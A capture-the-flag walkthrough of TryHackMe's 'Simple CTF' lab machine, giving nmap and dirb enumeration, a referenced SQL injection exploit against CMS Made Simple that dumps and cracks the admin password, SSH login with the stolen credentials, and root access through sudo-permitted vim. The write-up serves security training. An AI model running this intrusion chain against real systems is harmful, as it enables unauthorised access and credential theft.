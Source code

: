 ```yaml
---
title: "Simple CTF machine on THM"
classes: wide
header:  
  teaser: /assets/images/posts/writeups/simple_ctf.jpg
  #overlay_image: /assets/images/main/header3.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used."
description: "Walkthrough on Simple CTF machine from TryHackMe"
categories:
  - writeups
tags:
  - Simple
  - CMS
  - THM
  - CTF
  - mysql
  - writeup
  - TryHackMe
  - Easy
toc: false
---
```


<img src="/assets/images/posts/writeups/simple_ctf.jpg" alt="Simple_Ctf" width="500" class="align-center">

A beginner level CTF with a twist. The configuration leave room for errors, keep an eye on the CMS used.

## Information gathering

### Enumeration

#### Nmap

Command:
```sh
nmap -sC -sV 10.10.169.41
```

Results
```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can\'t get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.35.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

Since port 1000 is not displayed a new scan is needed: add UDP (-sU) and TCP SYN scan (-sS) plus specific port number

Command:
```sh
sudo nmap -sS -sV -sU -p 1000 10.10.169.41
```

Results
```sh
PORT     STATE         SERVICE VERSION
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

#### Dirb

Command:
```sh
dirb http://10.10.169.41/ -w /usr/share/wordlists/dirb/common.txt
```

Results
```sh
---- Scanning URL: http://10.10.169.41/ ----
+ http://10.10.169.41/index.html (CODE:200|SIZE:11321)
+ http://10.10.169.41/robots.txt (CODE:200|SIZE:929)
+ http://10.10.169.41/server-status (CODE:403|SIZE:300)
==> DIRECTORY: http://10.10.169.41/simple/
---- Entering directory: http://10.10.169.41/simple/ ----
==> DIRECTORY: http://10.10.169.41/simple/admin/
==> DIRECTORY: http://10.10.169.41/simple/assets/
==> DIRECTORY: http://10.10.169.41/simple/doc/
+ http://10.10.169.41/simple/index.php (CODE:200|SIZE:19913)
==> DIRECTORY: http://10.10.169.41/simple/lib/
==> DIRECTORY: http://10.10.169.41/simple/modules/
==> DIRECTORY: http://10.10.169.41/simple/tmp/
==> DIRECTORY: http://10.10.169.41/simple/uploads/   
```

## Exploitation

### Foothold
1. Checking the link  http://10.10.169.41/simple/ leads to an application called CMS made simple v 2.2.8 
2. Application is vulnerable to SQLi https://www.exploit-db.com/exploits/46635
3. Use the python script to exploit the vulnerability found you will get
``` sh
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

#### Data exfiltration

1. Using user *mitch* and password *secret* connect to SSH custom port (2222) found with nmap
``` sh
ssh mitch@10.10.108.231 -p 2222
```
2. Get user fag: *[UserFlag]*

### Privilege escalation
1. Check sudo privileges
``` sh
sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

#### Data exfiltration
1. Using the upper privileged vim you can get the root flag
``` sh
sudo /usr/bin/vim /root/root.txt
```